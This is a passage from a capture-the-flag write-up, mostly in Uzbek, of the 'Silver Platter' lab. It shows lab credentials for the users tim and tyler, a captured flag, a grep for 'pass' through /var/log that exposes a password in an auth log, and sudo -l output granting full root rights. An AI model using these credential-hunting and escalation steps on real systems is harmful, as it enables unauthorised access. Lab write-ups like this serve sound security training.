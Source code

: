 **Bingo!**

**user:** tim

**password:** cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol



**user.txt**'ni qo'lga kiritish:

```
tim@silver-platter:~$ ls                                     
user.txt
tim@silver-platter:~$ cat user.txt
THM{c4ca4238a0b923820dcc509a6f75849b}
```



## Privilage Escalation

Tizimda bor foydaluvchilar:

```
tim@silver-platter:/home$ ls
tim  tyler
```



Cyber Ninja(Beksulton aka):

> Buyruq: 
>
> ```
> grep -iR "pass" /var/log/
> ```
>
> Natija:
>
> ```
> /var/log/auth.log.2:Dec 13 15:45:57 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database silverpeas:6.3.1
> ```

**user:** Tyler

**password:** _Zd_zx7N823/

tyler huquqlari:

````
tyler@silver-platter:~$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
````
